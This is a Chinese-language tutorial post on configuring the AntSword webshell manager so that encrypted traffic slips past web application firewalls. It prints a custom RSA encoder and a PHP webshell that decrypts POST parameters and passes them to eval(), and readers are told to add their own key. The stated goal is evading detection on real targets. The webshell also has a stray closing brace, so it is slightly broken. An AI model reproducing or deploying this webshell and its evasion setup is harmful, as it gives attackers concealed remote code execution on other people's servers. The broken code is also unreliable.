






### 0x01
在实战中，要想bypass waf成功连接到我们的一句话木马，不仅仅要一句话木马本身免杀，还要对连接一句话木马的流量进行加密混淆处理，流量又分为请求包与返回包，一般的waf会对请求包中的敏感关键词进行拦截，但是有一些waf还会拦截返回包中的恶意关键词，所以，流量加密最好是对往返的流量都进行加密。我们这里主要讨论的就是对流量进行混淆的一些实践

### 0x02
如果使用中国菜刀的话，因为菜刀可定制度不高，我们可以使用一个代理脚本进行流量混淆，这个后面有机会再实验，本文主要是复现一下蚁剑这一工具的rsa流量加密。

蚁剑支持多种编码器，可以对流量进行混淆，但是这些编码器可能早已经加入waf的全家桶了，但是我们还可以通过自定义编码器来实现绕过waf检测的目的，这里主要演示的是通过rsa非对称加密的方式加密流量：



到蚁剑的配置页面，点击rsa配置，可以自动生成公私钥，并且会生成一个使用公钥的php木马，这个木马是不免杀的，我们需要单独对其进行免杀处理。有了公私钥以及木马，我们还需要配置编码器呀，编码器的作用就是将我们的流量用私钥进行加密，然后木马中会使用对应的公钥进行解密。配置编码器，只需要点击“新建编码器”并且选择php rsa



这样就生成了一个编码器了，现在已经可以正常使用了。但是，这只是一个初级的编码器，只是对模板模板进行了加密，没有对发送的命令进行加密只是进行了简单的base64编码处理：



而且没有对返回的流量进行加密：




这还是有可能被waf探测到，所以，我们需要对每个参数都进行加密，需要改一下编码器以及木马：

编码器：
```php
/**
 * php::RSA编码器
 * Create at: 2019/11/04 11:04:42
 */

'use strict';

/*
 * @param  {String} pwd   连接密码
 * @param  {Array}  data  编码器处理前的 payload 数组
 * @return {Array}  data  编码器处理后的 payload 数组
 */
module.exports = (pwd, data, ext={}) => {
    let ret = {};
    for (let _ in data) {
      if (_ === '_') { continue };
      ret[_] = ext['rsa'].encryptPrivate(data[_], 'base64')
    }
    data["_"] = `if((time()-${parseInt((new Date().getTime())/1000)})>5){die();};${data['_']}`;
    let n = Math.ceil(data['_'].length / 80);
    let l = Math.ceil(data['_'].length / n);
    let r = []
    for (var i = 0; n > i; i++) {
        r.push(ext['rsa'].encryptPrivate(data['_'].substr(i * l, l), 'base64'));
    }
    ret[pwd] = r.join("|");
    delete data['_'];
    return ret;
}
```
对应木马(注意这里的公钥要改成你自己的公钥）：

```php
<?php
$cmd = @$_POST['ant'];
$pk = <<<EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCC9BPAAA3EgNhVX9x5kjXwwbrA
AJSSl46CsjcloOjytsQZoR/Tn0QxI/sCaHJ23/DLviDbhZbYh3aJjXDLrGJXnQvx
BUj1a/YZDq/ZqlibffV54ljOhh6A/IIk6KmXXZBETA9GxI32vqDfqvbnuzyZMWvT
ShEmTzwYh4qW53cN+wIDAQAB
-----END PUBLIC KEY-----
EOF;
$cmds = explode("|", $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = '';
foreach ($cmds as $value) {
  if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
    $cmd .= $de;
  }
}
foreach($_POST as $k => $v){
    if (openssl_public_decrypt(base64_decode($v), $de, $pk)) {
       $_POST[$k]=$de;
  }
}
eval($cmd);
}
```

现在，每个参数都加密了：



但是，出现了一个问题，就是用这个全加密的套餐的时候，虚拟终端不能执行命令了：



### 0x03

由于我自己不会node.js，所以文章只是实践了一下别的师傅的文章（而且先知社区的大师傅提到的加密返回流量的解码器，我没有实践成功）。由于不会node.js，出现问题也不能解决，先留个坑，等我学了node.js再来研究。

参考：
https://xz.aliyun.com/t/6701
